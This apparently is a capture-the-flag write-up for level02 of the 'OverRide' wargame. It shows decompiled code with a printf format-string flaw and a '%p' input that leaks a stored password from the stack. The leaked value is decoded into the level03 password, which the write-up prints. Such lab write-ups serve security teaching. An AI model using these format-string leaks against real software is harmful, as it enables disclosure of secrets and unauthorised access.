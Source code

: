# Level 02

Once logged in, you will see a binary.

```
$ ssh localhost -p 4242 -l level02
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level02@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level02/level02

level02@OverRide:~$ls
level02
level02@OverRide:~$
```

Let's run the program.

```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: aaaaaaaaaaaaaa
--[ Password: bbbbbbbbbbbbbbbbbbbb
*****************************************
aaaaaaaaaaaaaa does not have access!
level02@OverRide:~$
```

By decompiling the source code (with [Hopper](https://www.hopperapp.com/) this time), it first opens the file of the token of level 3, and asks for input from the user. (Apparently this program doesn't seem to check whether the username is correct or not.) If the input doesn't match with the content of the password (the flag for level03), it will print out user name _directly from the user input_ before denying access.

```
	[...]

    puts("===== [ Secure Access System v1.0 ] =====");
    puts("/***************************************\");
    puts("| You must login to access this system. |");
    puts("\**************************************/");
    printf("--[ Username: ");
    // 0x64 = 100, stdin = 1
    fgets(&buffer_username, 0x64, stdin);    // <- here is the part taking input from stdin

	....

	if (strncmp(&buffer_password_file, &buffer_password_input, 41) == 0) {
        printf("Greetings, %s!\n", &buffer_username);
        system("/bin/sh");
        return (0);
	} else {
	    printf(&buffer_username);              // <- here is the part prints the output
	    puts(" does not have access!");
	    exit(1);
	}

	[...]
```

Remember, if the format string is sent directly to the function `printf`, it can be made to print values from the memory (the stack), which a vulnerability.

Also, since the variables are declared on the stack, the values are stored next to each other, which means that we can easily print out the values.

```
	int main(int arg0, int arg1) {
		FILE	*fs;
		size_t	read_count;
		char	buffer_username[100];
		char	buffer_password_file[42];
		char	buffer_password_input[100];

		[...]
```

Let's try and see if the value can be printed. We'll use `%p`, instead of `%x`, which will print out the memory formatted as pointers. This will make it so that even if the memory has leading 0s, we will still get the full hex-formatted memory. (e.g. `0x0000000000000001`)

```
level02@OverRide:~$ python -c 'print "%p "*100 + "\n"' | ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe4a0 (nil) (nil) 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe698 0x1f7ff9a08 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d 0x2c3000 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

We now have the password value (but reverse endian-ness order): `0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d`

We wrote a quick script (with comments) to decode these hex memory values into the password that you can see at `Ressources/decode_password.py`.

```
$ python3 decode_password.py
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```

Let's try the password we decoded.

```
level02@OverRide:~$ su level03
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level03/level03
level03@OverRide:~$
```

Success!
